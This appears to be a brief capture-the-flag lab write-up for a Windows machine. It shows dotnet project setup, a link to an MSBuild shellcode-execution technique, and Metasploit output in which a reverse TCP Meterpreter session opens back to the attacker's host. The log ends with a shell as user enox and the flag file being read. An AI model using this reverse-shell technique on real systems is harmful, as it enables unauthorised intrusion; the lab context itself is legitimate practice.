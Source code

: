 
# Second Day of Trying

```
dotnet new sln -o Repo
cd Repoe
dotnet new console -o Repo.ConsoleApp --framework net6.0
dotnet sln Repo.sln add Repo.ConsoleApp/Repo.ConsoleApp.csproj
```


## Third Try
i used the vs-rce and add my csproj
`https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c` ressources

and here i got a shell: wow
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.109:1337 
[*] Sending stage (200774 bytes) to 10.10.11.234

[*] Meterpreter session 1 opened (10.10.14.109:1337 -> 10.10.11.234:49674) at 2023-10-03 11:37:36 -0400

meterpreter > 
meterpreter > sessions 
Usage: sessions <id>

Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>

meterpreter > shell
Process 3612 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\Temp\60f033fc699d24d28c9f114a0e882a\rce>whoami
whoami
visual\enox

```

```

 Directory of C:\Users

06/10/2023  10:59 AM    <DIR>          .
06/10/2023  10:59 AM    <DIR>          ..
09/12/2023  02:02 AM    <DIR>          Administrator
09/12/2023  02:27 AM    <DIR>          enox
06/10/2023  10:08 AM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   8,919,076,864 bytes free
 Directory of C:\Users\enox\Desktop

06/10/2023  01:10 PM    <DIR>          .
06/10/2023  01:10 PM    <DIR>          ..
10/03/2023  08:20 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   8,919,076,864 bytes free

C:\Users\enox\Desktop>type user.txt
```